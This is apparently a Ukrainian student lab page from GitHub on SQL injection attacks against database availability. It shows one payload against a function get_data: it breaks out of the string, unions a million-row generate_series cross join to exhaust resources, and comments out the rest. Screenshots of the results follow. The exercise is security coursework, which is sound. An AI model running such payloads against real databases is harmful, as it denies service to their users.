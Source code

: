 ### Створити виклики функції з SQL-ін'єкціями з порушень доступності, приклади яких представлені в теоретичних відомостях.
### Створити знімки екранів з результатами виконання викликів функції та розмітити їх у файлі access_results.md у GitHub-репозиторії.

`SELECT * FROM get_data('1'' UNION
(SELECT a1, CAST(a1 AS VARCHAR), CAST(a1 AS INTEGER)
FROM (SELECT generate_series a1 FROM generate_series (1,1000)) t1
CROSS JOIN (SELECT * FROM generate_series (1,1000) t2) t3) -- '); `

![image](https://user-images.githubusercontent.com/56130345/206293279-c6e9e0a2-47fc-4d57-80f1-1708cfed0db5.png)

![image](https://user-images.githubusercontent.com/56130345/206293520-dc04571a-a69c-44ba-9f3c-7be8d1d7cf94.png)

![image](https://user-images.githubusercontent.com/56130345/206293554-fe076cc6-f67c-435c-931c-8adb572075e8.png)
